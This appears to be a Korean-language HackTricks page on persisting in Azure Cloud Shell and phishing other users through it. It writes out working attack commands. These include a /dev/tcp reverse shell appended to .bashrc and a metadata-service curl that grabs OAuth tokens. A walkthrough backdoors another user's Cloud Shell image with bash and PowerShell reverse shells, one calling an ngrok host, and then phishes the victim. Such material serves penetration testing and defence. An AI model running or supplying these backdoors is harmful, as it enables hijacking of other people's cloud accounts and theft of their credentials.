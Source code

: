 # Az - Cloud Shell Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Shell Persistence

Azure Cloud Shell은 지속적인 저장소와 자동 인증을 통해 Azure 리소스를 관리할 수 있는 명령줄 액세스를 제공합니다. 공격자는 지속적인 홈 디렉토리에 백도어를 배치하여 이를 악용할 수 있습니다:

* **Persistent Storage**: Azure Cloud Shell의 홈 디렉토리는 Azure 파일 공유에 마운트되며 세션이 종료된 후에도 intact하게 유지됩니다.
* **Startup Scripts**: `.bashrc` 또는 `config/PowerShell/Microsoft.PowerShell_profile.ps1`와 같은 파일은 각 세션 시작 시 자동으로 실행되어 클라우드 셸이 시작될 때 지속적인 실행을 허용합니다.

Example backdoor in .bashrc:
```bash
echo '(nohup /usr/bin/env /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/$CCSERVER/443 0>&1 &)' >> $HOME/.bashrc
```
이 백도어는 사용자가 클라우드 셸을 종료한 후에도 5분 동안 명령을 실행할 수 있습니다.

또한 Azure의 메타데이터 서비스에 인스턴스 세부정보 및 토큰을 쿼리합니다:
```bash
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -s
```
### Cloud Shell Phishing

공격자가 읽기 및 쓰기 권한이 있는 Storage Account에서 다른 사용자의 이미지를 찾으면, 이미지를 다운로드하고, **bash 및 PS 백도어를 추가한 후**, 다시 Storage Account에 업로드하여 사용자가 다음에 셸에 접근할 때 **명령이 자동으로 실행되도록** 할 수 있습니다.

- **이미지를 다운로드하고, 백도어를 추가한 후 업로드:**
```bash
# Download image
mkdir /tmp/phishing_img
az storage file download-batch -d /tmp/phishing_img --account-name <acc-name> -s <file-share>

# Mount the image
mkdir /tmp/backdoor_img
sudo mount ./.cloudconsole/acc_carlos.img /tmp/backdoor_img
cd /tmp/backdoor_img

# Create backdoor
mkdir .config
mkdir .config/PowerShell
touch .config/PowerShell/Microsoft.PowerShell_profile.ps1
chmod 777 .config/PowerShell/Microsoft.PowerShell_profile.ps1

# Bash backdoor
echo '(nohup /usr/bin/env /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/${SERVER}/${PORT} 0>&1 &)' >> .bashrc

# PS backdoor
echo '$client = New-Object System.Net.Sockets.TCPClient("7.tcp.eu.ngrok.io",19838);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' >> .config/PowerShell/Microsoft.PowerShell_profile.ps1

# Unmount
cd /tmp
sudo umount /tmp/backdoor_img

# Upload image
az storage file upload --account-name <acc-name> --path ".cloudconsole/acc_username.img" --source "./tmp/phishing_img/.cloudconsole/acc_username.img" -s <file-share>
```
- **그런 다음, 사용자를 피싱하여 https://shell.azure.com/에 접근하게 하십시오.**


{{#include ../../../banners/hacktricks-training.md}}
